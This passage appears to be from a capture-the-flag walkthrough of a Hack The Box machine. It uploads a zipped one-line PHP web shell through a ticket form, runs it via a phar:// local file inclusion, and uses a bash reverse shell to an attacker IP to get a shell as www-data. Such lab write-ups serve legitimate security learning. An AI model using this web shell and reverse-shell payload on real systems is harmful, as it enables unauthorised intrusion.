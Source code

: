 We can create a simple PHP code to test if we can do RCE:

```php
<?php system($_GET["cmd"]); ?>
```

Zip it to test.zip and upload it to a new ticket. With the LFI vulnerability, we can try the <mark style="color:red;">**`phar://`**</mark> protocol to access the malicious PHP file. For example:&#x20;

```bash
http://itrc.ssg.htb/?page=phar://uploads/<SHA1SUM>.zip/test&cmd=whoami
```

<figure><img src="../../../.gitbook/assets/2024-08-07 18_02_57-Kali - VMware Workstation.png" alt=""><figcaption></figcaption></figure>

Now run the PHP reverse shell code:&#x20;

```php
/bin/bash -c 'bash -i >& /dev/tcp/<your_ip>/<lport> 0>&1'
```

URL encode that and put it in Burp:&#x20;

<figure><img src="../../../.gitbook/assets/burp-zip-rev.png" alt=""><figcaption></figcaption></figure>

Send the request and we have a shell as <mark style="color:orange;">**`www-data`**</mark>

<figure><img src="../../../.gitbook/assets/rev-shell.png" alt=""><figcaption></figcaption></figure>
